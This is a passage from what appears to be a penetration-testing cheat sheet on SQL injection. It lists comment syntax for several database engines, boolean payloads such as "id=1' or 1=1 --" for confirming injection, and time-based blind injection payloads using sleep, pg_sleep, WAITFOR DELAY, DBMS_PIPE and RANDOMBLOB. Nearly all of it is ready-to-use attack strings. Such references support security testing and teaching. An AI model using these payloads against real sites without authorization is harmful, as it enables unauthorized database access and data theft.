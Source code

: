 **Comments**

```sql
MySQL
#comment
-- comment     [Note the space after the double dash]
/*comment*/
/*! MYSQL Special SQL */

PostgreSQL
--comment
/*comment*/

MSQL
--comment
/*comment*/

Oracle
--comment

SQLite
--comment
/*comment*/
```

**Confirming with logical operations**

```
page.asp?id=1 or 1=1 -- results in true
page.asp?id=1' or 1=1 -- results in true
page.asp?id=1" or 1=1 -- results in true
page.asp?id=1 and 1=2 -- results in false
```

**Confirming with Timing**

In some cases you won't notice any change on the page you are testing. Therefore, a good way to discover blind SQL injections is making the DB perform actions and will have an impact on the time the page need to load.

```sql
MySQL (string concat and logical ops)
1' + sleep(10)
1' and sleep(10)
1' && sleep(10)
1' | sleep(10)

PostgreSQL (only support string concat)
1' || pg_sleep(10)

MSQL
1' WAITFOR DELAY '0:0:10'

Oracle
1' AND [RANDNUM]=DBMS_PIPE.RECEIVE_MESSAGE('[RANDSTR]',[SLEEPTIME])
1' AND 123=DBMS_PIPE.RECEIVE_MESSAGE('ASD',10)

SQLite
1' AND [RANDNUM]=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB([SLEEPTIME]00000000/2))))
1' AND 123=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(1000000000/2))))
```

